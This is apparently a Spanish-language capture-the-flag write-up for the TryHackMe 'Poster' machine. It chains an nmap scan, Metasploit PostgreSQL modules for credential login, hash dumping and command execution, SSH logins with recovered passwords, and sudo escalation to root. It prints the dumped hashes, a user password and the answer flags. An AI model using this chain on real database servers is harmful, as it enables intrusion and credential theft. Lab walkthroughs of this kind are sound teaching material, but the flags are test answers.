 # Poster

## Escaneo de puertos

Ejecutamos un mapeo de los puertos de la máquina víctima con `nmap` para identificar los puertos abiertos que puedan ser explotados:

```bash
sudo nmap -sV -T4 -p- 10.10.127.180
```

Hay tres puertos abiertos: el 22 de SSH, el 80 de HTTP y el 5432 de PostgreSQL.

![](images/image.png)

## Explotación de PostgreSQL

Usamos `msfconsole` para explotar una posible vulnerabilidad en la versión de PostgreSQL existente.

![](images/image-1.png)

Buscamos `postgresql` en los módulos:

```bash
search postgresql
```

Usamos el módulo número 22.

![](images/image-2.png)

Mostramos las opciones disponibles.

![](images/image-3.png)

Asignamos la IP de la máquina víctima y lo ejecutamos:

```bash
set rhosts 10.10.127.180
```

![](images/image-4.png)

Una vez obtenidas las credenciales, usamos el módulo para ejecutar comandos:

```bash
use auxiliary/admin/postgres/postgres_sql
```

Asignamos la contraseña `password` que obtuvimos anteriormente. Tenemos la versión exacta de PostgreSQL (9.5.21).

![](images/image-5.png)

Ahora, usamos el siguiente módulo para “dumpear” los hashes de usuarios de la base de datos:

```bash
use auxiliary/scanner/postgres/postgres_hashdump
```

Obtenemos todos los hashes:

![](images/image-6.png)

```
darkstart  md5 8842b99375db43e9fdf238753623a27d
poster     md5 78fb805c7412ae597b399844a54cce0a
postgres   md5 32e12f215ba27cb750c9e093ce4b5127
sistemas   md5 f7dbc0d5a06653e74da6b1af9290ee2b
ti         md5 7af9ac4c593e9e4f275576e13f935579
tryhackme  md5 03aab1165001c8f8ccae31a8824efddc
```

Usamos ahora el módulo para ejecución de comandos arbitrarios y abrimos una sesión:

```bash
use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
```

![](images/image-7.png)

Mostramos el contenido de la carpeta del usuario y del archivo `credencials.txt`:

![](images/image-8.png)

## Acceso por SSH

Accedemos al servidor por SSH con las credenciales de `dark`.

![](images/image-9.png)

Inspeccionamos el directorio `/var/www/html`:

![](images/image-10.png)

Encontramos las credenciales de `alison`.

![](images/image-11.png)

## Escalada de privilegios

Entramos con el usuario `alison` por SSH (contraseña: `p4ssw0rdS3cur3!#`).

![](images/image-12.png)

Comprobamos los permisos que tiene:

```bash
sudo -l
```

Vemos que puede ejecutar cualquier comando con sudo.

![](images/image-13.png)

Nos hacemos root y obtenemos la flag de `root.txt`:

![](images/image-14.png)

```
THM{c0ngrats_for_read_the_f1le_w1th_credent1als}
```

También obtenemos la flag del user:

![](images/image-15.png)

```
THM{postgresql_fa1l_conf1gurat1on}
```
